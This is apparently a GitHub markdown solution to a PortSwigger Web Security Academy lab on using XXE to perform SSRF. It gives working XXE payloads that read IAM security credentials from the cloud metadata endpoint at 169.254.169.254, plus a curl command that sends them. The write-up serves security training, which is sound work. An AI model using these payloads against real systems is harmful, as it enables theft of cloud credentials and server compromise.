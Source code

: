 \# Solution – Exploiting XXE to Perform SSRF



\## Lab title

Exploiting XXE to perform SSRF attacks  

(PortSwigger Web Security Academy)



\## Step 1: Intercept and inspect a request



Send this normal XML:

```xml

<stockCheck>

&nbsp; <productId>123</productId>

</stockCheck>

The server responds:

Invalid product ID: 123



==>This confirms that the value is reflected and can be manipulated.

Step 2: Craft XXE payload to target internal metadata server

Replace the XML with this:



<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo \[

&nbsp; <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">

]>

<stockCheck>

&nbsp; <productId>\&xxe;</productId>

</stockCheck>

Step 3: Send the request using Burp



curl https://your-lab-id.web-security-academy.net/product/stock \\

&nbsp; -X POST \\

&nbsp; -H "Content-Type: application/xml" \\

&nbsp; --data-binary @xxe-ssrf-payload.xml

Step 4: Analyze the response

Send another payload to get full credentials:



<!DOCTYPE foo \[

&nbsp; <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role">

]>

<stockCheck>

&nbsp; <productId>\&xxe;</productId>

</stockCheck>

Expected output:



Invalid product ID: {

&nbsp; "AccessKeyId": "...",

&nbsp; "SecretAccessKey": "...",

&nbsp; ...

}



Step 5: Lab is solved

If credentials are returned, the lab marks as solved automatically.












